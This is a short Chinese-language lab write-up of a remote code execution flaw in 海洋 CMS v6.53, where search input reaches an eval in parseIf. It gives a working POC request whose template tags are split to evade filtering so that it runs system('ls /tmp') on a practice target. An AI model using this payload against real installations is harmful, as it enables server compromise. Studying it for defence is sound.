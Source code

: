 # 海洋 cms-V6.53 by [scholar](https://github.com/Frivolous-scholar) 

## 概述

echoSearchPage 函数中的 content 变量传给了 parself 函数，跟踪代码，找到 ./include/main.class.php，可以看到 parseIf 函数会将content内容 eval 执行，造成命令执行。

## 复现

1、首先打开靶场。

![1](./1.png)

2、进行搜索并抓包。

![2](./2.png)

3、利用 POC 来拿 Flag,POC 如下。

```
searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))&9[]=sy&9[]=stem("ls /tmp");
```

![3](./3.png)